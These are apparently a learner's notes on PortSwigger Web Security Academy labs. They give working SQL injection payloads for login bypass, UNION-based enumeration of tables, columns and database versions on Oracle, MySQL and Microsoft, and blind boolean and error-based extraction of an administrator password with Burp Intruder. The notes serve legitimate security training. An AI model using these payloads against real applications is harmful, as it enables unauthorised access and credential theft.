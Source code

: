 ### sql injection

hint: internal server error on http route.  
 '+OR+1=1-- #will query all #SELECT \* FROM products WHERE catergory = '' or 1+1--' equivalent.
ex: https://0aa000d504428d79c0e803da00430076.web-security-academy.net/filter?category=%27+OR+1=1--

### SQL injection vulnerability allowing login bypass

Use burp suite to intercept and modify login.
modify username with parameter administrator'--

### SQL union injection

2 requirements:
How many columns are being returned from the original query?
Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

Continue adding null values until the error disappears and the response includes additional content containing the null values.  
ex: /filter?category='+UNION+SELECT+NULL,NULL-- HTTP/1.1  
-NULL is a special keyword that matches any data type.
-add NULLs if 'internal server error'
ex: '+UNION+SELECT+NULL,NULL,NULL--

### Lab: SQL injection UNION attack, finding a column containing text

Use Burp Suite to intercept and modify the request that sets the product category filter.
Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter:
'+UNION+SELECT+NULL,NULL,NULL--
Try replacing each null with the random value provided by the lab, for example:
'+UNION+SELECT+'abcdef',NULL,NULL--
If an error occurs, move on to the next null and try that instead.

### SQL injection UNION attack, retrieving data from other tables

Find number of columns using NULL  
'+UNION+SELECT+NULL,NULL--  
Check columns for string values  
'+UNION+SELECT+'string','string2'--
Replace strings to search for username and password on table users
'+UNION+SELECT+username,+password+FROM+users--
right click - show response in browser, open new tab, paste.
get administrator password, and paste into login.

### SQL injection UNION attack, retrieving multiple values in a single column

intercept category, move to repeater  
in repeater find column size  
'+UNION+SELECT+NULL,'string'--  
locate string for username/password injection  
concat username and password into string starr is used to seperate values so you can find easily  
'+UNION+SELECT+NULL,username||'\*'||password+FROM+users--  
right click response show response in browser  
grab administrator password and login

### Lab: SQL injection attack, querying the database type and version on Oracle

Hint: There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual
ex: '+UNION+SELECT+NULL,NULL+FROM+dual--
check for string data types
'+UNION+SELECT+'string','string2'+FROM+dual--
Now look for version by using BANNER, NULL, and v$version from cheatsheet.
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

Hint: You can find some useful payloads on our SQL injection cheat sheet.
for this instead of using '--' at the end, it will be a hash #  
ex: '+UNION+SELECT+NULL#
find number of columns and check for strings
'+UNION+SELECT+'string2','string1'#
for microsoft @@version  
ex:'+UNION+SELECT+@@version,NULL#

### SQL injection attack, listing the database contents on non-Oracle databases

Hint: You can find some useful payloads on our SQL injection cheat sheet.  
proxy -> intercept -> repeater  
Non-oracle -- -> NULL NULL enumerate until columns found, then string search.  
Grab name of tables we want username/passwords table_name keyword information_schema.tables keyword  
ex: '+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--  
Show response in browser -> ctrl+f 'users' save user custom name
search column_name and information.schema.columns Where table_name= usercustomName
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_zleagd'--
find name of username column and password column -> ex: password_ozeovi username_oiwhns
Then make UNION select with username, password, FROM, usertable
ex: '+UNION+SELECT+username_oiwhns,password_ozeovi+FROM+users_zleagd--
grab username/password for administrator
Login from Myaccount

### SQL injection attack, listing the database contents on Oracle

proxy-intercept-repeater - ORACLE (+FROM+dual) instead of --
enumerate nulls for columns '+UNION+SELECT+NULL,NULL+FROM+dual--
test strings - both are strings
Grab name of tables we want username/passwords table_name keyword all_tables keyword for ORACLE
ex: '+UNION+SELECT+table_name,NULL+FROM+all_tables--
get users table info - USERS_ICXPNX
search column_name and ORACLE: all_tab_columns using our username table to filter via WHERE clause
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ICXPNX'--
Then make UNION select with username, password, FROM, usertable
PASSWORD_TYRFNT
USERNAME_AIPDKN
'+UNION+SELECT+USERNAME_AIPDKN,PASSWORD_TYRFNT+FROM+USERS_ICXPNX--
Log in using administrator and password.

# BLIND SQL INJECTIONS

### Lab: Blind SQL injection with conditional responses

Hint: You can assume that the password only contains lowercase, alphanumeric characters.  
intercept, reload, repeater, see Cookie: tracking-ID=  
use booleans EX: Cookie: TrackingId=AfmV0i55jXUHch34' AND '1'='1;  
search for 'Welcome back' string shows that it's injectable  
if boolean is a false and doesn't give 500 error, it shows it's injectable.  
intercept -> repeater -> send to intruder  
intruder -> clear positions -> trackingId position, figure out length of password.  
ex: TrackingId=skE2Uot3KwnNY4m0' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a;  
highlight '1' click add in intruder  
ex:' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a; session=80ZmlNFRn852B56JEPNfCP8hWIoUQcZX  
payload -> type -> numbers -> from 1 to 30(super secure) step = 1.  
options tab -> grep match -> clear -> add "Welcome" we know logged in users see "Welcome back!"  
ex: TrackingId=skE2Uot3KwnNY4m0' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a;  
intruder -> clusterbomb(two payloads)  
TrackingId=skE2Uot3KwnNY4m0' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a;  
select payloads  
Cookie: TrackingId=skE2Uot3KwnNY4m0' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§;  
payload 1 -> numbers 1-20(we know PW is 20 long from prior step) step 1  
payload 2 -> simple list ->payload options -> add a-z and 0-9  
Start attack, wait for 30 minutes, order results  
pw: i0tky7lpg6kfrvw0o0vf

### Blind SQL injection with conditional errors

Cookie: TrackingId=4KuVlET3kPLQfehN'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||';  
server Error  
change 1=2 ex: '||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||';  
send to intruder, clear  
get error back to find PW length ex: '||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'  
select 1 and 'add' for payload ex: LENGTH(password)>§1§  
payload - numbers 1-30 step 1  
options are default  
Start attack, look for 500 status response = error response for me 19 errors 20 char long pw

now iterate over 20 chars to find out which char for all 20.  
intruder similar to last time.  
ex: '||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';  
add a and first 1, ex: Cookie: TrackingId=4KuVlET3kPLQfehN'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';  
Cluster bomb attack (two payloads)
payload 1 numbers 1-20 step 1, payload 2 a-z 0-9
look for any 500s and we'll get the password from internal server error. 500 = valid character
